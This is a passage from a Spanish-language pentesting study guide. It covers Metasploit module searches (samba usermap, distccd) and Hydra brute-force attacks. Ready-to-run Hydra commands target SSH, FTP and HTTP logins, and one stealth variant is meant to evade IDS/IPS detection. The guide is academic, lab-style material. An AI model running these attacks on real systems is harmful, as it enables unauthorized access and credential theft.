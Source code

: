 **Ejemplos de Búsqueda Especializados**:
```bash
search samba usermap
search distccd
search type:exploit platform:linux
# PROPÓSITO: Localización precisa de módulos de explotación
```




### 3.2 Ataques de Fuerza Bruta con Hydra

#### Configuración de Listas de Usuarios
```bash
# Preparación de listas de usuarios
echo -e "root\nadmin\nuser\ntest\nguest\nmakis\nadministrator" > users.txt
# PROPÓSITO: Lista curada de usuarios comunes en sistemas objetivo
```

### 🔐 Ataques por Protocolo — Fuerza Bruta con Hydra

| Protocolo        | Comando                                                                                                          | Propósito Académico                                                                 |
|------------------|------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------|
| **SSH (rápido)** | `hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://<IP>`                                              | Ataque automatizado contra autenticación SSH usando diccionario de usuarios y claves. |
| **SSH (sigiloso)** | `hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 4 -w 3 ssh://<IP>`                                      | Ataque con limitación de velocidad para evitar detección o bloqueo por IDS/IPS.    |
| **FTP (rápido)** | `hydra -L users.txt -P passwords.txt ftp://<IP>`                                                                 | Compromiso de servicio FTP mediante fuerza bruta.                                   |
| **FTP (controlado)** | `hydra -L users.txt -P /usr/share/wordlists/rockyou.txt -t 2 -w 5 ftp://<IP>`                                | Ataque controlado para evitar lockouts por múltiples intentos fallidos.            |
| **HTTP Basic Auth** | `hydra -L users.txt -P passwords.txt http-get://<IP>/admin/`                                                  | Ataque contra autenticación básica HTTP en rutas protegidas.                       |
| **HTTP POST Form** | `hydra -L users.txt -P passwords.txt <IP> http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect"` | Ataque contra formularios web con validación por respuesta (flag `F=`).       |


#### Tabla de Flags - Hydra (Brute Force)

| Flag | Función Académica                               | Aplicación Práctica                             |
|------|-------------------------------------------------|------------------------------------------------|
| `-L` | User List                                       | Lista de usuarios objetivo                     |
| `-l` | Single User                                     | Usuario específico                             |
| `-P` | Password List                                   | Diccionario de passwords                       |
| `-p` | Single Password                                 | Password específico                            |
| `-t` | Threads                                         | Número de conexiones paralelas                |
| `-w` | Wait Time                                       | Delay entre intentos (segundos)               |
| `-v` | Verbose                                         | Output detallado del progreso                 |
| `-f` | Fast Mode                                       | Parar al encontrar primera credencial válida  |
